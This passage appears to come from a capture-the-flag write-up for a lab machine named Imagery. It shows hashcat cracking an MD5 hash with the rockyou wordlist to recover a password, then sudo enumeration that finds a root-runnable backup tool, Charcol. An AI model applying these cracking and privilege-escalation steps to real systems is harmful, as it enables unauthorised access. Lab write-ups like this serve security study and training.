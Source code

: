 ```bash
┌──(kali㉿kali)-[~/Downloads/web]
└─$ echo "01c3d2e5bdaf6134cec0a367cf53e535" > hash

┌──(kali㉿kali)-[~/Downloads/web]
└─$ hashcat -m 0 hash /usr/share/wordlists/rockyou.txt --force                                          
hashcat (v7.1.2) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-skylake-avx512-11th Gen Intel(R) Core(TM) i7-11370H @ 3.30GHz, 2930/5861 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

INFO: All hashes found as potfile and/or empty entries! Use --show to display them.
      For more information, see https://hashcat.net/faq/potfile

Started: Fri Oct 10 01:25:58 2025
Stopped: Fri Oct 10 01:25:58 2025

┌──(kali㉿kali)-[~/Downloads/web]
└─$ hashcat -m 0 hash --show
01c3d2e5bdaf6134cec0a367cf53e535:supersmash
```

## Shell as mark

### /usr/local/bin/charcol

While exploring the target as the user `mark`, we found a tool called **Charcol**. 

```bash
mark@Imagery:/$ sudo -l
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
    
mark@Imagery:/$ sudo charcol

  ░██████  ░██                                                  ░██ 
 ░██   ░░██ ░██                                                  ░██ 
░██        ░████████   ░██████   ░██░████  ░███████   ░███████  ░██ 
░██        ░██    ░██       ░██  ░███     ░██    ░██ ░██    ░██ ░██ 
░██        ░██    ░██  ░███████  ░██      ░██        ░██    ░██ ░██ 
 ░██   ░██ ░██    ░██ ░██   ░██  ░██      ░██    ░██ ░██    ░██ ░██ 
  ░██████  ░██    ░██  ░█████░██ ░██       ░███████   ░███████  ░██ 
                                                                    
                                                                    
                                                                    
Charcol The Backup Suit - Development edition 1.0.0

```